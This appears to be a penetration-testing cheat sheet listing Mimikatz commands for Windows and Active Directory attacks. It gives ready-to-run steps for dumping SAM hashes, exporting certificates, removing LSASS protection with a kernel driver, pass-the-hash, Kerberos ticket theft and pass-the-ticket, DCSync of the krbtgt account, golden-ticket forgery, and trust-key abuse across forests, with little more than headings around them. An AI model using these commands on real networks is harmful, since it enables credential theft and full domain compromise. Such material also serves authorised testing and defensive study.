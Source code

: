 # Mimikatz

## SAM File - Local accounts

#### Save files from registry

```csharp
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\SYSTEM SystemBkup.hiv
```

```csharp
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\SAM /SYSTEM:C:\Users\b3v1l\Desktop\SYSTEM
```

```csharp
lsadump::sam /system:C:\Users\b3v1l\Documents\test\sam\system /sam:C:\Users\b3v1l\Documents\test\sam\sam
```

![](../../../.gitbook/assets/image%20%28309%29.png)

## Export Certificats

```csharp
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

## Disable LSASS protection

### Manually

* Upload mimidrv.sys on the target
* Create a service task

```csharp
sc create mimidrv binpath= C:\temp\mimidrv.sys type= kernel start= demand
```

* Start the task

```csharp
sc start mimidrv
```

* Then, using mimikatz

```csharp
!processprotect /process:lsass.exe /remove
```

### Full mimikatz version

* Copy the mimikatz and sys driver on the disk
* Start mimikatz and load the driver. Disable Lsass protection

```csharp
privilege::debug
!+
!processprotect /process:lsass.exe /remove
```

## Pass the Hash

```csharp
Invoke-Mimikatz -Command '"sekurlsa::pth /user:targetaccount /domain:test.lab.local /ntlm:b38ff50
264bc43012185d82c69794a4d8 /run:powershell.exe"'
```

## Kerberos Tickets

### List tickets

```csharp
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### Export tickets

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Pass the Ticket

```csharp
Invoke-Mimikatz -Command '"kerberos::ptt [0;9eaea]-2-0-60a10000-administrator@krbtgt-HOME.LAB.COM.kirbi"'
```

### Golden Ticket

#### Dcsync using a priv account on the dc 

```csharp
lsadump::dcsync /domain:target.domain.com /user:prod\krbtgt
```

#### Use krbtgt to impersonate anyone on the domain

```csharp
 kerberos::golden /user:Administrator /domain:target.domain.com /sid:S-1-5-21-634106289-36255656793-12345407 /id:500 /group/512 /krbtgt=dfdsfwefdccfbb7cc8eeadf7ce1 /startoffset=0 /endin=600 /renewmax:10080 /ptt
```

## DSync

{% hint style="info" %}
Replace /user:Domain\krbtgt by any username to get a specific hash
{% endhint %}

```csharp
 Invoke-Mimikatz -Command '"lsadump::dcsync /user:Domain\krbtgt"'
```

## Trust Key between Forest and Child

### Get the trusted key

```csharp
 Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.lab.test.local
```

### Get a ticket

```csharp
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:childomain.com /sid:<childomain.com SID> /sids:<main domain SID-519> /rc4:ea9815a
<trusted key hash> /service:krbtgt /target:maindomain.com /ticket:C:\temp\trust_tkt.kirbi"'
```

### Pass the ticket - SID history

```csharp
 Invoke-Mimikatz -Command '"kerberos::ptt krbtgt_tkt.kirbi"'
```

